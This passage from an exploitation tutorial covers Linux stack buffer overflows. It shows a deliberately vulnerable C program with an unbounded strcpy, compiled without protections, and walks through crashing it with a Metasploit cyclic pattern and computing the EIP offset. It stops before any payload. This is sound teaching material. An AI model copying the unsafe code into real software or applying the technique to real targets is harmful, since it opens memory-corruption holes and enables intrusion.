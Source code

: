 
## Buffer Overflow Exploitation

### Linux Stack-Based Buffer Overflow

#### Vulnerable Program Example
```c
// vuln.c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // Vulnerable: no bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}

// Compile without protections:
// gcc -o vuln vuln.c -fno-stack-protector -z execstack -m32
```

#### Exploitation Process

**Step 1: Crash the Application**
```bash
# Generate pattern to find offset
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200

# Run with pattern
./vuln "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

# Check crash with gdb
gdb ./vuln
run "Aa0Aa1Aa2..."
# Note EIP value
```

**Step 2: Calculate Offset**
```bash
# Find offset to EIP
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41326341
# Output: [*] Exact match at offset 76
```
